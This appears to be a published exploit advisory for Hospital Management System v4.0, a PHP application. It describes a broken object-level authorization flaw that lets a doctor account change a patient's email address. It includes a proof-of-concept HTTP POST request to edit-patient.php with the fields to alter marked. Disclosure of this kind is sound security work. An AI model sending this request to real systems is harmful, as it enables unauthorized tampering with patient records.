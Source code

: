 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the email of patient that cannot modify in UI(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/edit-patient.php?editid=2(CHANGE HERE) HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com(CHANGE HERE)&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```